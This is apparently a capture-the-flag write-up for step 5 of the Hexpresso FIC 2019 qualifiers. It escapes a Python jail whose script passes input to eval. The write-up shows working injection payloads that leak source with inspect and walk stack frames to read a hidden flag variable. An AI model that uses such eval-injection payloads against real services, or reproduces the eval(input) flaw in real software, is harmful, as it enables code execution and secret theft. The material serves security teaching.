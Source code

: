```yaml
---
title: Hexpresso FIC Quals 2019: Step 5
slug: hexpresso-fic-5
date: 20/12/2019 05
---
```


The fifth step is a Python jail that we must escape.

![Introduction](/assets/hexpresso-fic-quals/step5/intro.png)

We are provided a few files allowing to connect to the challenge:

```
$ socat stdio openssl-connect:ctf.hexpresso.fr:2323,cert=client.pem,cafile=server.crt,verify=0
>et ça fait bim bam boum
Bad flag !
```

Well... Looks like our input is somehow compared to the actual flag. Let's
try to break the script in order to get a trace:

```
>'
Traceback (most recent call last):
  File "./main.py", line 28, in <module>
    main()
  File "./main.py", line 21, in main
    if flag == get_input():
  File "./main.py", line 15, in get_input
    return eval(f"""'{input(">")}'""")
  File "<string>", line 1
    '''
      ^
SyntaxError: EOF while scanning triple-quoted string literal
```

There is a lot of information here! What we know:

* The script is `main.py`
* Our input is retrieved using the `input` function
* The [f-string](https://realpython.com/python-f-strings/) feature is used,
so we are in a Python 3.6 runtime at least
* Our input is put into single quotes and forwarded to `eval`
* We are in a function `get_input`
* `get_input` is called in main
* There is a `flag` variable in the `main` function that looks to hold the flag

We can inject Python using a standard closing/comment payload such as:

```
>vroum' and print('Hello') #
Hello
Bad flag !
```

In that example, the following is evaluated:

```python
'vroum' and print('Hello') #'
```

As `'vroum'` is a truthy, the other side of the `and` gets to be evaluated
and our `print` is executed.

I used [inspect](https://docs.python.org/3/library/inspect.html) in order
to leak the source code:

```
>vroum' + print(__import__('inspect').getsource(get_input)) #
def get_input():
    return eval(f"""'{input(">")}'""")
[truncated]
```

Let's get main:

```
>vroum' + print(__import__('inspect').getsource(main)) #
def main():
    flag = get_flag()

    if flag == get_input():
        print(SUCCESS)
    else:
        print(FAIL)
[truncated]
```

The `get_flag` function looks promising!

```
>vroum' + print(__import__('inspect').getsource(get_flag)) #
def get_flag():
    flag = os.environ.get("FLAG", "FLAG{LOCAL_FLAG}")
    os.environ.update({"FLAG": ""})
    return flag
```

Too bad for us... The flag is retrieved and then emmediately removed
from the environment at the start of the script. We'll have to go back a couple
of scopes in order to reach the `flag` variable and print its content.

```
>vroum' and print(__import__('inspect').currentframe().f_back.f_back.f_locals) #
{'flag': 'Next step : http://c4ffddcc437c5df3e6d681e7cafab510.hexpresso.fr'}
Bad flag !
```

This payload is actually very simple:

* Import `inspect`
* Get the current frame (in the `eval`)
* Go back one scope (to `get_input`)
* Go back another scope (to `main`)
* Print the local variables (of `main`)

[Click here](/hexpresso-fic-6) for the next step!